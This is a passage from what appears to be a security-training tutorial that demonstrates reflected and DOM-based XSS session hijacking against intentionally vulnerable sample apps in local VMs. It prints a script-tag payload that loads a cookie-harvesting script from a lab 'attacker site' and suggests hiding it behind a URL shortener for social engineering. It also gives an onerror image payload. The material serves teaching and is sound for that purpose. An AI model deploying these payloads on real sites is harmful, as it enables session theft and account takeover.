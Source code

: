 * Clone the [Sandboxed Containers Repo](https://github.com/WPFerg/SandboxedContainers) and check out the SQL_Injection branch
* Create the sample apps (and new databases) by running `vagrant up` from the sub-folders of the 'samples' folder.  There are two apps, the MEAN stack accessible at `10.10.10.10`, and Jade, Express & MySQL at `10.10.10.20`. These apps have basic user login and post making facilities, inspired by *Write Modern Web Apps with the MEAN Stack* by Jeff Dickey. There's a third site, an 'attacker site' which collects data from the other two apps at `10.10.10.30`.

Moving on from a previous article
-----

If you're moving on from a different article in this series you may want to clean up your system somewhat:

* Kill the sample app VMs with vagrant destroy.
* Recreate the sample apps (and new databases) with vagrant up. 


Session hijack via Reflected XSS
-----
Before you start this, make sure that you have the Attacker's Site example also running (at `10.10.10.30`).

**Jade\_Express\_MySQL**

We're going to use the search feature to send cookies to the attacker site. The attack payload is a pre-built hijack script on the attacker site, carefully crafted for this target system (e.g. single quotes, not double) so it doesn't upset the database query that looks for matching text in posts. You can deploy it either in the search box or the URL, but for a social-engineering assisted attack, you'd put it in the URL, and maybe obfuscate it with a URL shortener.

    <script src='//10.10.10.30/exploits/session.js'></script>

Now visit the attacker website and you'll see your session cookie has been harvested.  What's happened here is that the server has echoed back the search term verbatim to the client, which executed the harvesting script.

Fire up another browser and change your cookie to the session ID you've just harvested in your plugin of choice (EditThisCookie for Chrome, or Advanced Cookie Manager for Firefox). You've just performed a session hijack without a great deal of effort. 

<img src="{{ site.github.url }}/rsillem/assets/security-xss/sessions.PNG" style="display: block; margin: auto;"/>


Session hijack via DOM-based XSS
-----
**MEAN_Stack**

You can do a similar thing with the MEAN_stack sample, but the technicalities are different. Since Angular gets to work after the DOM is ready, any script tags added into the body wouldn't be executed. However, this doesn't necessarily mean that all XSS has been thwarted. HTML elements have `on` attributes that execute JavaScript on a certain event. Let's craft some code that executes straight away, without the need for a script tag:

    <img src="///" onerror="alert('hello')" />
